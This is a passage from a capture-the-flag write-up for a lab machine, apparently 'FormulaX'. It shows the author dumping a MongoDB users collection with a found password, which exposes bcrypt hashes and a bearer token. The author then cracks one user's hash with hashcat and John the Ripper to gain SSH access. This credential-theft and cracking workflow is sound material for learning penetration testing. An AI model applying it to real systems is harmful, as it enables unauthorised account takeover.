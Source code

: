 We have mongo database password which means we can explore it.

```bash
(remote) www-data@formulax:/var/www$ mongo --shell -p ThisIsTheN0deSecret
MongoDB shell version v4.4.29
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("6fe83776-f146-4773-a624-afe087e1bbcd") }
MongoDB server version: 4.4.8
...
> show dbs
admin    0.000GB
config   0.000GB
local    0.000GB
testing  0.000GB
> use testing
switched to db testing
> show collections
messages
users
> db.users.find()
{ "_id" : ObjectId("648874de313b8717284f457c"), "name" : "admin", "email" : "admin@chatbot.htb", "password" : "$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.", "terms" : true, "value" : true, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NDg4NzRkZTMxM2I4NzE3Mjg0ZjQ1N2MiLCJpYXQiOjE3MTg2NDQyNjN9.Sw95qzNNusVXq5sNohjoQu6DVbYNbPdfsvg-Dm2vei8", "__v" : 0 }
{ "_id" : ObjectId("648874de313b8717284f457d"), "name" : "frank_dorky", "email" : "frank_dorky@chatbot.htb", "password" : "$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6", "terms" : true, "value" : true, "authorization_token" : " ", "__v" : 0 }
> db.messages.find()
```

## SSH (22)

## Privilege Escalation (frank_dorky)

Crack the hash of ssh user `frank`:
```bash
➜ .\hashcat.exe --show hashes
The following 4 hash-modes match the structure of your input hash:                                                                                                                                                                                    # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce        
➜ .\john-1.9.0-jumbo-1-win64\run\john.exe --wordlist=rockyou.txt --format=bcrypt .\hashes
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
No password hashes left to crack (see FAQ)
➜ .\john-1.9.0-jumbo-1-win64\run\john.exe --show .\hashes
?:manchesterunited
1 password hash cracked, 0 left
# Already had cracked before notes.
```
